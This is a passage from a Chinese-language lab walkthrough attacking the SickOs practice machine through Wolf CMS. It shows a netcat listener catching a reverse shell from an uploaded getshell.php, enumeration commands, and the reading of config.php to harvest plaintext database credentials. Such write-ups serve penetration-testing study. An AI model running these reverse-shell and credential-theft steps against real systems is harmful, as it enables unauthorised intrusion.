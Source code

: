     ```php
    nc -lvp 1234                                                     
    listening on [any] 1234 ...
    ```
    
    访问 `http://192.168.75.136/wolfcms/public/getshell.php`
    
    反弹shell成功
    
- 查看其权限
    
    ```php
    listening on [any] 1234 ...
    192.168.75.136: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.136] 52339
    //
    www-data@SickOs:/var/www/wolfcms/public$ dpkg -l
    ...
    //
    www-data@SickOs:/var/www/wolfcms/public$ sudo -l
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: no tty present and no askpass program specified
    Sorry, try again.
    sudo: 3 incorrect password attempts
    //
    www-data@SickOs:/var/www/wolfcms/public$ uname -a
    Linux SickOs 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
    ```
    
    权限不高，系统名是`SickOs` 内核版本是`3.11.0-15`
    

## 提权

- 因为wolf是cms，肯定会存在与数据库连接的文件，找到`config.php` 文件
    
    ```php
    cat /var/www/wolfcms/config.php
    //
    <?php 
    
    // Database information:
    // for SQLite, use sqlite:/tmp/wolf.db (SQLite 3)
    // The path can only be absolute path or :memory:
    // For more info look at: www.php.net/pdo
    
    // Database settings:
    define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
    define('DB_USER', 'root');
    define('DB_PASS', 'john@123');
    define('TABLE_PREFIX', '');
    .....
    ```
    